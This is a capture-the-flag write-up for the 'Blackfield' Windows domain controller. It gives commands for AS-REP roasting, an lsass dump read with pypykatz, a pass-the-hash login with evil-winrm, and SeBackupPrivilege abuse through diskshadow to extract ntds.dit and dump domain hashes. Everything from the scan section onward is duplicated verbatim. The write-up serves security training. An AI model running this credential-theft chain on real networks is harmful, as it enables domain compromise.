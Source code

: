 ```yaml
---

---
```


# Summary
Blackfield is a hard windows machine that involves initially gaining access as anonymous user to the profiles$ share and using all the usernames with GetSPNUsers.py giving us the hash for the user support which can be used to log into rpcclient and change the password for the user audit2020. Using the new credentials we authenticate with SMB again and grab the forensics share and the lsass.DMP file which contains working NTLM hash of the user svc_backup. Using which we login through evil-winrm. Abusing the SeBackupPrivilege and SeRestorePrivilege we can use diskshadow to get the ntds.dit and system hive using which we can dump the administrator hash and psexec in.

# NMAP:

NMAP scan reveals the following :

```
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-06 17:05:08Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
```

## SMB - 1

Attempting to authenticate with a anonymous:anonymous gives us access to the shares.

Using GetUserSPNs.py and the custom list of users we generate using the folders in the SMB profiles$ share we get the aseproast hash for the user support and cracking the hash reveals the password of #00^BlackKnight.

## RPC

Using the credentials we log in to RPC and follow the [https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html) guide to change the password for the user audit2020.

## SMB - 2

Checking the SMB share forensics we find a lsass.DMP file in the memory_analysis folder which most likely contains the hash for the current user. Therefore, using the tool pypykatz we are able to retrieve the hash for the user

```
pypykatz lsa minidump lsass.dmp
```

Using the hash along with evil-winrm gives us a shell as svc_backup.

```
evil-winrm -i 10.10.10.192 -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup
```

# Privilege Escalation

Checking the privileges for the current user reveals that the user svc_backup has the SeRestorePrivilege and the SeBackupPrivilege which can be abused to own a file and backup a file.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

In order to abuse the privileges we use the following  [https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9](https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9%20to%20get%20the%20ntds.dit).

Make a temp directory and add diskshadow.txt. Running diskshadow.txt will give an error and in order to avoid it a space character needs to be added to the end of each line.

```
$ cat diskshadow.txt
set context persistent NOWRITERS 
add volume c: alias someAlias 
create 
expose %someAlias% z: 
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\temp\ntds.dit 
delete shadows volume %someAlias% 
reset

------- Inside Evil-winrm -------
PS > cd C:\ ; mkdir temp ; cd temp
PS > upload diskshadow.txt
PS > diskshadow.exe /s c:\temp\diskshadow.txt
PS > cd z:/windows/ntds
PS > download ntds.dit
PS > reg.exe save hklm\system c:\temp\system.bak
PS > download c:\temp\system.bak

$ secretsdump.py -ntds ntds.dit -system system.bak LOCAL
```

This gives us an administrator hash which can be used with psexec.py to gain admin on the machine.

# NMAP:

NMAP scan reveals the following :

```
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-06 17:05:08Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
```

## SMB - 1

Attempting to authenticate with a anonymous:anonymous gives us access to the shares.

Using GetUserSPNs.py and the custom list of users we generate using the folders in the SMB profiles$ share we get the aseproast hash for the user support and cracking the hash reveals the password of #00^BlackKnight.

## RPC

Using the credentials we log in to RPC and follow the [https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html) guide to change the password for the user audit2020.

## SMB - 2

Checking the SMB share forensics we find a lsass.DMP file in the memory_analysis folder which most likely contains the hash for the current user. Therefore, using the tool pypykatz we are able to retrieve the hash for the user

```
pypykatz lsa minidump lsass.dmp
```

Using the hash along with evil-winrm gives us a shell as svc_backup.

```
evil-winrm -i 10.10.10.192 -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup
```

# Privilege Escalation

Checking the privileges for the current user reveals that the user svc_backup has the SeRestorePrivilege and the SeBackupPrivilege which can be abused to own a file and backup a file.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

In order to abuse the privileges we use the following  [https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9](https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9%20to%20get%20the%20ntds.dit).

Make a temp directory and add diskshadow.txt. Running diskshadow.txt will give an error and in order to avoid it a space character needs to be added to the end of each line.

```
$ cat diskshadow.txt
set context persistent NOWRITERS 
add volume c: alias someAlias 
create 
expose %someAlias% z: 
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\temp\ntds.dit 
delete shadows volume %someAlias% 
reset

------- Inside Evil-winrm -------
PS > cd C:\ ; mkdir temp ; cd temp
PS > upload diskshadow.txt
PS > diskshadow.exe /s c:\temp\diskshadow.txt
PS > cd z:/windows/ntds
PS > download ntds.dit
PS > reg.exe save hklm\system c:\temp\system.bak
PS > download c:\temp\system.bak

$ secretsdump.py -ntds ntds.dit -system system.bak LOCAL
```

This gives us an administrator hash which can be used with psexec.py to gain admin on the machine.

